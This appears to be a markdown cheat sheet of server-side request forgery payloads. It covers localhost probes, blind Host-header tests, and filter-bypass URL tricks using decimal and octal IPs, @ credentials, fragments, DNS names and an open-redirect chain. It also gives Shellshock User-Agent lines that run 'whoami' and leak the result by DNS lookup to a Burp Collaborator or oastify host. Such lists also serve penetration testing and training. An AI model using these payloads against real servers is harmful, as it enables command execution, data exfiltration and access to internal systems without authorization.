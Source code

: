 ## Commom method
```txt
http://localhost/
http://127.0.0.1/
```
## Blind Method
#### Just place burpcollaborator server in host header
```txt
Host: burpcollaborator.net
```
#### Shellshock exploitation
```txt
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).3kobqoj8uv6qbwwlkaf5cvzr1i79v0jp.oastify.com >> Change Uger-Agent info
Referer: http://192.168.0.$1$:8080 >> Bruteforce the ip
```
## Circumventing common SSRF defenses
_____________________________________
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://expected-host:fakepassword@burpcollaborator.net
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#expected-host
    https://burpcollaborator.net#google.com
```
#### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://google.com.burpcollaborator.net
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
```txt
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN >> For exploiting shellshock vulnerability via SSRF
```
